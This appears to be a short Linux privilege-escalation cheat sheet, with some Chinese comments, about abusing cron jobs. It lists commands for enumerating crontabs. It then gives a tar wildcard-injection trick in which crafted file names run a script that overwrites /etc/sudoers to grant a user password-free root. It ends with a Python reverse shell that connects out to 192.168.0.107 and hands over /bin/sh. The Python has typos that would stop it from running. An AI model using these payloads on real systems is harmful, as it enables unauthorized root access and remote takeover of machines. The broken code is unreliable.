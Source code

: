 	crontab -l
	ls -alh /var/spool/cron;
	ls -al /etc/ | grep cron
	ls -al /etc/cron*
	cat /etc/cron*
	cat /etc/at.allow
	cat /etc/at.deny
	cat /etc/cron.allow
	cat /etc/cron.deny*
	
	>for user in $(getent passwd|cut -f1 -d:); do echo "### Crontabs for $user ####"; crontab -u $user -l; done 列举所有用户的crontab
	$cat /etc/crontab
	$echo 'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers' >test.sh
	$echo "" > "--checkpoint-action=exec=sh test.sh"
	$echo "" > --checkpoint=1
	或编辑可写的计划任务文件
	#!/usr/bin/python
	import os,subprocess,socket
	s=socket.socekt(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("192.168.0.107","5555"))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	p=subprocess.call(["/bin/sh","-i"])
